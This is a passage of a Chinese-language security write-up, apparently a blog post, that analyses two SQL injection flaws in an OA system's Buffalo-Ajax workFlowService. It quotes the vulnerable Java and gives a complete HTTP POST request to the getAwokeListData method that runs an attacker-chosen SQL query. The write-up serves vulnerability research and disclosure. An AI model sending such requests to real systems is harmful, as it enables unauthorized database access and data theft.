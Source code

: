 ```
 List&gt; list = new LinkedList();  
 if (sqlAndSource.length &gt; 1) {  
      dbSourceName = sqlAndSource[0];  
      newSql = sqlAndSource[1];  
    } else {  
      newSql = sqlAndSource[0];  
    }   
    hiSession = null;  
 boolean innerDbFlg = (dbSourceName == null || "".equals(dbSourceName));  
 try {  
      hiSession = TransactionManager.getInstance().getCurrentSession();  
  if (innerDbFlg) {  
        con = hiSession.connection();  
      } else {  
        con = (new HiOaBaseSQLManager(hiSession)).userOuterDbSource(dbSourceName);  
      }   
      smt = con.createStatement();  
      rs = smt.executeQuery(newSql);

```  
  
根据Buffalo-Ajax的请求格式，构造如下请求体，method中指定方法名称为getAwokeListData  
，参数为{"k":"SELECT database()","v":""}  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host:
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3Connection: keep-aliveCache-Control: max-age=0<buffalo-call>    <method>getAwokeListData</method>    <string>{"k":"SELECT database()","v":""}</string></buffalo-call>
```  
  
直接查询出数据库名称  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRMHW5Lcia7D8SyPHcEo2346he7Ck8IyjfKDskffjMfJicQ4xSMQ8AfIlrmQ5WiaITpcf8Pr4HprBTjQ/640?wx_fmt=png&from=appmsg "")  
## SQL注入（二）  
  
来看第二个SQL注入漏洞，也在该service中方法名称为getAfterUserID  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRMHW5Lcia7D8SyPHcEo2346fBF3PSa0MhnKtn68MpAQ5XFWQjPaOSjOCnbNCZsSW4K61Q6ic8SFhibg/640?wx_fmt=png&from=appmsg "")  
  
关键代码就是  
```
String sql = "SELECT user_id FROM user_user WHERE user_id in (" + tracedUsers + ",'" + userId + "') " + " order by user_order ";

```  
  
传参直接被拼接到SQL语句中执行，造成注入  
  
